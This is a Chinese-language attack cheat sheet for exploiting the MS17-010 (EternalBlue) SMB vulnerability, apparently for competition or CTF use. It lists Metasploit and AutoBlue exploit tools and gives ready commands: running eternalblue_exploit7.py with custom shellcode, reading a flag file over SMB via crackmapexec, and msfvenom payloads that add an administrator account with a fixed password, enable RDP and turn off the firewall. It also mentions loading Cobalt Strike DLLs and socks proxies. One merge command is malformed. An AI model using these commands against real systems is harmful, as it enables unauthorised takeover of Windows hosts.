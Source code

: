 # MS17-010争夺战

## 工具介绍

- MSF几个exp

  - ms17_010_eternalblue，利用永恒之蓝漏洞攻击，支持win7及以上系统，容易蓝屏
  - ms17_010_psexec：引入了zzz_exploit的逻辑，可以执行任意代码，需要namepipes，自定义选项丰富，也是最稳定的一种模式，不容易蓝屏，只要有pipe，通杀所有windows系统
  - ms17_010_command：和上面的使用了相同的代码，这个直接执行一个命令，比如添加一个用户

- [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

  - eternal_checker.py，检测目标系统是否有漏洞和显示可用的namepipes（重要）
  - eternalblue_exploit7/8/10.py  注入执行一段shellcode，支持win7-win10，容易蓝屏
  - zzz_exploit.py，通过smb执行任意代码，需要有一个namepipes才能用，支持XP以上系统，基本不会蓝屏

- Eternalblue-Doublepulsar NSA原版工具据说可以自动攻击，含有全套NSA的后门

  主要为两个exe程序，可以集成进MSF，也可以单独运行，可以注入一个dll后门到目标系统运行，

  - Eternalblue-2.2.0.exe，
  - Doublepulsar-1.3.1.exe

## 常规打法

- MSF use exp，set payload，获取meterpreter权限
- 然后添加用户，或者上线CS

## 非常规打法

### 使用漏洞直接开启RDP，并添加用户，关闭防火墙等

```bash
python3 eternalblue_exploit7.py adduser.bin x.x.x.x
```

### 直接上线CS，或者直接开代理

```bash
使用NSA工具 注入CS的dll，或者开socks代理的dll
```

### 使用smb直接读flag文件 不讲武德

```
crackmapexec smb $ip -u administrator -p 112344 -x 'type C:\Users\Administrator\Desktop\flag.txt'
```

## 附录

### 生成shellcode

1. 生成 eternalblue_exploit7.py 可用的 shellcode

   ```bash
   # 1 生成64位的
   $ msfvenom -p windows/x64/exec EXITFUNC=thread CMD='cmd.exe /c net user synb123 "qqNBNo.1" /ADD
   && net localgroup administrators synb123 /ADD && REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f && netsh advfirewall set allprofiles state off' -f raw > msfexecx64.bin
   
   # 2 生成32位的
   $ msfvenom -p windows/exec EXITFUNC=thread CMD='cmd.exe /c net user synb123 "qqNBNo.1" /ADD     && net localgroup administrators synb123 /ADD && REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f && netsh advfirewall set allprofiles state off' -f raw > msfexecx86.bin
   
   # 3 合并shellcode
   $ sc_x64_kernel.bin sc_x64_msf.bin > sc_x64.bin
   $ cat sc_x86_kernel.bin sc_x86_msf.bin > sc_x86.bin
   $ python eternalblue_sc_merge.py sc_x86.bin sc_x64.bin sc_all.bin
   ```

2. 生成dll

   ```bash
   
   ```

### Windows桌面版和Server版对应关系

| 桌面版 Windows | WinServer | 32/64bit | 内核版本 | 发行日期   |
| -------------- | --------- | -------- | -------- | ---------- |
| XP             | 2003      | 32       | NT 5.2   | 2003-4-24  |
| Vista          | 2008      | 32       | NT 6.0   | 2008-2-27  |
| 7              | 2008 R2   | 64       | NT 6.1   | 2009-10-22 |
| 8              | 2012      | 64       | NT 6.2   | 2012-9-4   |
| 8.1            | 2012 R2   | 64       | NT 6.3   | 2013-10-17 |
| 10/1607        | 2016      | 64       | NT 10.0  | 2016-10-13 |
| 10/1809        | 2019      | 64       | NT 10.0  | 2018-11-13 |